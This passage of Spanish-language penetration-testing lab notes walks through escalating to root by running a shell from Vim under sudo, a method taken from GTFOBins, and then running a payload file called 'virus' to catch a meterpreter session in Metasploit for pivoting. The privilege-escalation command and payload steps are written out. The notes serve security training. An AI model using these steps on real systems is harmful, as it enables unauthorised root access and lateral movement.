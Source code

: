           
        
- Nos vamos a la web [https://gtfobins.github.io/](https://gtfobins.github.io/) y **miramos Vim con Sudo.**
    
    ![[Imagenes/image 34 3.png|image 34 3.png]]
    
- Probamos el primer comando que nos muestra para ver si podemos conseguir una shell como root
    
    `sudo vim -c ':!/bin/sh'`
    
    `whoami`
    
    ![[Imagenes/image 35 3.png|image 35 3.png]]
    
      
    
- Volvemos a Metasploit y ejecutamos el **multi/handler** de nuevo**.**
    
    `run`
    
    ![[Imagenes/image 36 3.png|image 36 3.png]]
    

  

- Y en el Terminal de la maquina intermedia volvemos a lanzar el archivo virus.
    
    `./virus`
    
    ![[Imagenes/image 37 2.png|image 37 2.png]]
    
      
    
    En el Metasploit
    
    ![[Imagenes/image 38 2.png|image 38 2.png]]
    

  

> [!important] Debemos recordar que para hacer pivoting necesitamos un meterpreter no una shell. por tanto debemos alternar entre ellos con el comando `shell` para tener una shell y con el comando `exit` para salir del la shell al meterpreter.